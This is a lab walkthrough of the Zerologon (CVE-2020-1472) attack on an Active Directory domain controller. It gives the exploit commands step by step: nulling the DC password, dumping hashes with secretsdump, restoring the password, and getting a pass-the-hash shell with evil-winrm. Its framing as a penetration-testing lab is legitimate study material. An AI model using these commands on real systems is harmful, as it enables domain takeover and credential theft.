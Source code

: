 ## Introduction
- This vulnerability allows a hacker to take control of a domain controller (DC), including the root DC. This is done by changing or removing the password for a service account on the controller. The hacker can then simply cause a denial of service or take over and own the entire network.
- Zerologon is the name given to a vulnerability identified in CVE-2020-1472.
- This dangerous vulnerability has a 10 out of 10 (CVSS v3.1) for severity from the Common Vulnerability Scoring System (CVSS).
- This vulnerability exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC).
- The biggest problem with this vulnerability is that MS-NRPC is also used to transmit certain account changes, such as computer service account passwords. However, lack of validation in the source of the request to change these passwords has become a significant security issue.
- Zerologon is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers.
- Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

## Practical implementation in the lab

1. Install dependencies as follows:
```python
┌──(kali㉿kali)-[/opt/zerologon]
└─$ pip install -r Requirements.txt 
```

2. **Running the tester**
Now that all our requirements are satisfied, we boot up our Windows Server which has already been configured as a Domain Controller.
-  DC Name: HYDRA-DC  
-  IP Address: 192.168.1.15

**Command** -
./zeroLogon-NullPass.py DC-NAME IP-ADDRESS
```python
python3 zerologon_check.py HYDRA-DC 192.168.1.15
```

**Output** - 
![[zerologon1.png]]

3.  Now, to exploit the vulnerability with our newly crafted exploit;
**Command** - 
secretsdump.py -just-dc -no-pass DC-NAME\$@IP-ADDRESS
```python
┌──(kali㉿kali)-[/opt/zerologon]
└─$ python3 cve-2020-1472-exploit.py HYDRA-DC 192.168.1.15
```

**Output** - 
![[zerologon2.png]]
Now that the password has successfully been set to null, or 0; 

4. Now, we can use Impacket's secretsdump.py to dump the hashes;
**Command** - 
```python
┌──(kali㉿kali)-[/opt/zerologon]
└─$ secretsdump.py -just-dc -no-pass MARVEL/HYDRA-DC\$@192.168.1.15
```

**Output** - 
![[zerologon3.png]]
The administrator hash highlighted above is the one that we are going to use in the next step to restore the domain controller password again from empty string.

5. Now, we run the below command to get the administrator plain_hex_password.
**Command** - 
```python
secretsdump.py administrator@192.168.1.15 -hashes administrator_hash
```

**Output** - 
![[zerologon4.png]]

6. Above highlighted plain_hex_password will be used to restore the DC password that is null now.
**Command** - 
```python
┌──(kali㉿kali)-[/opt/zerologon]
└─$ python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.1.15 -hexpass plain_password_hex
```

**Output** - 
![[zerologon5.png]]

1. We can also generate a Powershell root shell with evil-winrm like;
```python
evil-winrm -u Administrator -H LOCAL-ADMIN-HASH -i IP-ADDRESS
```